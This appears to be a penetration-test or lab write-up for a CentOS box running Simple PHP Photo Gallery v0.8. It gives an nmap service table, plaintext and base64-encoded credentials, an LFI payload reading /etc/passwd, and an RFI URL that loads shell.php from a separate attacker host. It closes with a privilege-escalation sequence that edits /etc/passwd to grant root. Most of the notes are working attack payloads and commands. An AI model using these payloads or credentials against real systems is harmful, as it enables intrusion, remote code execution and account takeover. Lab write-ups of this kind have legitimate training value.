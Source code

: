 # Box IP: 192.168.244.58

---

## System Info
- **OS/Tech:** CentOS 7, Apache 2.4.6 (httpd), PHP 5.4.16  
- **App:** Simple PHP Photo Gallery v0.8

---

## Credentials
- **User:** `michael`  
- **Password:** `HockSydneyCertify123`

---

##  Service Enumeration (`nmap -sC -sV`)
| Port    | State | Service          | Version / Notes                              |
| ------- | ----- | ---------------- | --------------------------------------------- |
| **21**  | open  | ftp              | vsftpd 3.0.2 – anonymous YES (no interesting files) |
| **22**  | open  | ssh              | OpenSSH 7.4                                   |
| **80**  | open  | http             | Apache 2.4.6 + PHP 5.4.16                     |
| **111** | open  | rpcbind          | RPC #100000 (no RCP creds known)              |
| **139** | open  | netbios-ssn      | Samba smbd 3.x–4.x (enum4linux → users)       |
| **445** | open  | netbios-ssn      | Samba smbd (same workgroup)                  |
| **3306**| open  | mysql            | MySQL (no anonymous access)                   |
| **33060**|open  | mysqlx           | MySQL X Protocol                             |

---

##  Exploits & Findings

### 1. LFI
```text
http://192.168.244.58/image.php?img=../../../etc/passwd%00
```
michael	1000	1000	/home/michael	/bin/bash 

### 2.RFI
http://192.168.244.58/image.php?img=http://192.168.45.183/shell.php

### 3. Database Credentials 
SELECT * FROM users;

| username | password                                     |
+----------+----------------------------------------------+
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |
+----------+----------------------------------------------+

-- DB password: MalapropDoffUtilize1337

etc/passwd is writable by michael....

cp /etc/passwd /tmp/passwd.bak
sed -i 's/^michael:x:1000:1000:/michael:x:0:0:/' /etc/passwd
grep '^michael:' /etc/passwd
su  michael
whoami  # → root


